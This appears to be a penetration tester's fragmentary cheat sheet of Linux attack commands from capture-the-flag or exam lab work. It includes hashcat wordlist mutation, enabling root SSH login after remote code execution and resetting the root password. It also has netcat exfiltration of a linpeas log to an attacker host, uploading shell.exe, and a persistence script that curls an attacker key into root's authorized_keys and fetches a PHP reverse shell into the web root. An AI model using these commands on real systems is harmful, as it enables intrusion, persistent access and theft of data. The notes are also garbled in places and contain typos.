

13-linux tricks
bruteforce
create a list and mutate element with hashcat
•
◇ hashcat --force <dict file> -r /usr/share/hashcat/rules/best64.rule --stdout > result_dict.txt
hashcat rules files
◇ each line is a rule applied to a file
◇ T0 == lowercase index 0
◇ : == do nothing
◇ r ===
◇ u === uppercase
◇ $0 == append 0
◇
$0 $0 == append 00
Allow SSH after RCE:
change passwd or get the password
- ◇
◇ /etc/init.d/ssh start
◇ by default ssh login for user root is disabled by
◇ grep -i root /etc/ssh/sshd_config
◇ Append the following line to the SSH config to allow root login with password :
◇ ▪ PermitRootLogin yes
◇ /etc/init.d/ssh start \# restart ssh
change password of root
◇
echo "root:password" |/usr/bin/chpasswd
generating keys for RSA
ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
download a file from shell with nc
* victim : nc 10.10.14.4 5555 -w 3 < ./linpeas.log
* attacker : nc -lvp 5555 > linpeas.log
run local ftp server
◇
python -m pyftpdlib -p21 -w
Create custom worlist hashcat
◇
create custom list of common names related pof the box (begin with capital letter)
- ◇
◇ hashcat --force custom_wordlist -r /usr/share/hashcat/rules/best64.rule --stdout > hashcat_words
Proxying each web exploit via curl (burp proxy)
curl -x http://10.10.14.44:8080 <url>
curl upload
* curl -F "files=@shell.exe" http://10.11.1.123/books/apps/jquery-file-upload/server/php/
Linux
-
cd - // previous work dir
Convert to linux format
Linux_Persistence

#! /bin/bash
mkdir /root/.ssh
chmod 600 /root/.ssh
curl 10.10.14.39/youness.pub >>/root/.ssh/authorized_keys
chmod 600 /root/.dssh/authorized_keys
curl 10.10.14.9/srev.php -o /var/www/html/rev.php /rev.php is shell
// /usr/share/laudanum/php
# debug system error
sudo journalctl -xe
cat /var/Log/auth.log
One line port scanning nc
nc -zv 192.168.100.1 1-65535
- TCP
- nc -nvv -w 1 -z $target $port1-$port2
- UDP
- nc -nv -u -z -w 1 $target $port1-$port2 // range
Export targets
- transfer remote file to linux
- -P2222 student@192.168.179.52:/challenge/powershell-uploads ./powershell-uploads
{kind=link}